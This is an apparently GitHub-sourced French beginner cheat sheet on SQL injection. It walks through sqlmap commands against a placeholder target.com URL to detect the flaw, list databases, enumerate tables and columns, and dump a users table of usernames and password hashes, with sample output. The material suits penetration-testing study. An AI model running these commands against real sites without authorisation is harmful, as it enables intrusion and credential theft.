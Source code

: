 # SQL Injection (SQLi)

## Objectif
Exploiter une faille d'injection SQL pour accéder à des données, contourner l'authentification ou exécuter du code sur le serveur.

---

## Commandes essentielles et explications

### 1. Détection de la vulnérabilité
```bash
sqlmap -u "http://target.com/page.php?id=1" --batch
```
- **sqlmap** : Outil automatisé pour détecter et exploiter les injections SQL.
- **-u** : URL cible avec le paramètre à tester.
- **--batch** : Mode automatique (pas d'interaction requise).
- **Exemple de sortie** :
```
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] the back-end DBMS is MySQL
[INFO] fetching current database: 'targetdb'
```
- **À surveiller** : Confirmation de la vulnérabilité, type de base de données détecté.

### 2. Extraction de données
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```
- **--dbs** : Liste les bases de données accessibles.
- **Exemple de sortie** :
```
available databases [2]:
[*] information_schema
[*] targetdb
```
- **Astuce débutant** : Toujours commencer par lister les bases, puis les tables, puis les colonnes.

### 3. Dump de tables et de colonnes
```bash
sqlmap -u "http://target.com/page.php?id=1" -D targetdb --tables
sqlmap -u "http://target.com/page.php?id=1" -D targetdb -T users --columns
sqlmap -u "http://target.com/page.php?id=1" -D targetdb -T users --dump
```
- **-D** : Spécifie la base de données.
- **-T** : Spécifie la table.
- **--columns** : Liste les colonnes.
- **--dump** : Extrait le contenu.
- **Exemple de sortie** :
```
| id | username | password |
|----|----------|----------|
| 1  | admin    | hash123  |
```
- **À surveiller** : Données sensibles, mots de passe hashés.
